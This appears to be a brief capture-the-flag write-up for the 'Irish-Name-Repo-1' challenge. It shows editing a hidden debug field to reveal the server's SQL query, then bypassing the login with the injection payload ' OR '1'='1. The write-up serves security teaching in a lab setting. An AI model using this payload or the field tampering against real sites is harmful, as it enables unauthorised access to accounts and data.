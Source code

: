 # Irish-Name-Repo-1

On inspecting the login page:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

Edit the html and set the debug value to 1

On trying to log in, we get:

```text
username: user
password: pass
SQL query: SELECT * FROM users WHERE name='user' AND password='pass'
```

SQL injection:

```text
username: ' OR '1'='1
password: ' OR '1'='1
SQL query: SELECT * FROM users WHERE name='' OR '1'='1' AND password='' OR '1'='1'
```
